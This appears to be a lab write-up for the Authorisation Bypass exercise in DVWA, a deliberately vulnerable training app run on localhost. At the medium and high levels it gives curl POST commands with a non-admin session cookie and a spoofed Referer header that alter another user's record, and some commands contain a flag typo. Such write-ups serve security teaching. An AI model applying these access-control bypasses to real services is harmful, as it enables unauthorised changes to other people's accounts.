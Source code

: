 # DVWA - Authorisation Bypass

## Description

- **Vulnerability:** Authorisation Bypass 
- **Impact:** Leveraging vulnerabilities to get access to user manager system.

---

## LOW Security Level
The source code doesn't have any checks. You can use `gordonb / abc123` this account (this is not an admin account). Since the source code doesn't have any checks so we can just access to the URL: http://localhost/DVWA/vulnerabilities/authbypass/

![Guide image](./screenshots/1.png)

## MEDIUM Security Level
The source code now updated with a check:
```php
/*

Only the admin user is allowed to access this page.

Have a look at these two files for possible vulnerabilities: 

* vulnerabilities/authbypass/get_user_data.php
* vulnerabilities/authbypass/change_user_details.php

*/

if (dvwaCurrentUser() != "admin") {
    print "Unauthorised";
    http_response_code(403);
    exit;
}
```
Let's take a look at those 2 files, visit `get_user_data.php` we got:
```json
[{"user_id":"1","first_name":"admin","surname":"admin"},{"user_id":"2","first_name":"Gordon","surname":"Brown"},{"user_id":"3","first_name":"Hack","surname":"Me"},{"user_id":"4","first_name":"Pablo","surname":"Picasso"},{"user_id":"5","first_name":"Bobbbb","surname":"Smith"}]
```
And visit `change_user_details.php` got:
```json
{"result":"fail","error":"Only POST requests are accepted"}
```

You can see that we doesn't got any error Unauthourised so this is the vulnerability that API call doesn't check accounts.

Make a POST request `curl -X POST "http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php" -b "PHPSESSID=<NON_ADMIN_PHPSESSID>"` to `change_user_details.php`, got:
```json
{"result":"fail","error":"Access denied"}
```

For somehow, when I make request normally on browser I don't get that message, however when I make a request through `curl` I got `Access denied`. So I do some investigate with the `admin` account and found that the request with admin account go with a header `Referer: http://localhost/DVWA/index.php` so I add it to my command:
```bash
curl -X POST "http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php" -b "PHPSESSID=3ce91c8cfb7a6ad94efcd2cb696b8eb3;security=medium" -H "Referer: http://localhost/DVWA/index.php"
```
I don't get `Access denied` so I have passed the check, now pass a correct format to update user details:
```bash
curl -X POST "http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php" -b "PHPSESSID=3ce91c8cfb7a6ad94efcd2cb696b8eb3;security=medium" -H "Referer: http://localhost/DVWA/index.php" H "Content-Type: application/json" -d '{"id": 5, "first_name": "Bob", "surname": "Smith"}'
```

Got: 
```json
{"result": "ok"}
```

![Guide image](./screenshots/2.png)

## HIGH Security Level
The source code:
```php
/*

Only the admin user is allowed to access this page.

Have a look at this file for possible vulnerabilities: 

* vulnerabilities/authbypass/change_user_details.php

*/

if (dvwaCurrentUser() != "admin") {
    print "Unauthorised";
    http_response_code(403);
    exit;
}
```

For somehow, I can still change user data in HIGH Security Level by commands used in MEDIUM:
- Change user details
```bash
curl -X POST "http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php" -b "PHPSESSID=3ce91c8cfb7a6ad94efcd2cb696b8eb3;security=high" -H "Referer: http://localhost/DVWA/index.php" H "Content-Type: application/json" -d '{"id": 5, "first_name": "Bob", "surname": "Smith"}'
```
This can be used maybe because the developer forgot to check on POST request.
